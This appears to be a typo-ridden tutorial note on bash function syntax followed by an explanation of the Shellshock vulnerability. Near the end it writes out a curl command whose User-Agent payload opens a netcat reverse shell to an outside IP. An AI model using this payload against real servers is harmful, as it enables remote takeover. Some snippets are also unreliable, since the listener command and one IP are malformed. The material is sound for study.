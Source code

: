 # Functions

## Writing functions

There are a few different ways to create a function. The most popular way is 

``` bash
function myFunction() {
    doSomethin here
}

function myFunction { 

}

myFunction() {

}
```

Functiions must always be defined before calling them. Meaning, the funtion almost always will need to be defined early in the script. Unlike other scripting languages.

However you almost never know what is going to be passed.
You can access the arguments passed to the funcions using the generic arguments such as `$1, $2, ...$n-1` or `$@` where it looks at all the arguments as an array. 

In bash, a function cannot return just the prodect, however, a status code can be sent back. Example:

``` bash
    #!/bin/bash

    function multiply() {
        let PRODUCT=$1 * $2
    }

    multiply 5 10
    multiply 16 16
```

#

## Shellshock Vulnerability

It is possible to create a function from the command line. We can also create function and pass it to instancees, using the export command. Refer to the earlier example within [ShellBasics](./ShellBasics.md) for exporting explanation.  Example:

``` bash
    root$plc:~# testFunction() { echo called; }
    root$plc:~# export -f testFunction
    root$plc:~# bash
    root$plc:~#testFunction
    called
    root$plc:~# env
    INFOPATH=/usr/local/info:/usr/share/info:/usr/info:/share/info
HOMEPATH=\Users\willi
.....
VBOX_MSI_INSTALL_PATH=C:\Program Files\Oracle\VirtualBox\
BASH_FUNC_testFunction%%=() {  echo called
```

As you can see when I call `env`, it will show that it is an environment variable.

*The shell shock vulnerability, was a flaw in the way that bash processed funcions that was passed anonymous variable. Bash will continue to parsing commands, after the declaration. Example:

``` bash
    root$plc:~# export someFile= '() { echo called; }; echo hacked'
```

- The `export somefile` command creates an environment variable that will be available to the new shell instances. In this case, the variable is called "someFile"

- The next part, ` '() ` declares a function. This will be assigned to the new environment variable.

- Next, the ` { echo called; } ` is the normal part of the function.

- The last part, `; echo hacked` finishes the environment variable bad. As indicated, this part is the bad part. The shell should not run this, but on vulnerable bash versions it will.

If using the named function, it will not execute. This is can happen when the webserver needs to send header data directly to the shell. When this is done, user agent string is set as a global variable. If this is the case, the user-agent string can add the vulnerability here. One way to take advantage of this, is the use of `curl`. Using this tool, you can easily test a webserver if it is vulnerable to this attack.

> Curl [man page](https://curl.haxx.se/docs/manpage.html)

``` bash
    root$plc:~# curl -A'() { :; }; /bin/nc -e /bin/bash 122.66.12.40 4444' http://1222.66.12.30/modpoll.php
```

First, we need to set up a net cat server with `nc -ve 4444` on port 4444.

Using this `-A` specify the malicious bash function as the user-agent string. (can be found in in the man page.) The rest will run a bash instance over a tcp connection.

All of this will/need to be done, in this example, through a user-agent string. You can view your user-agent string, for example, from examining elements within google chrome browers using the developer tools. User-agent string is nothing but a key, value pair string that describes the machine conneting to the server.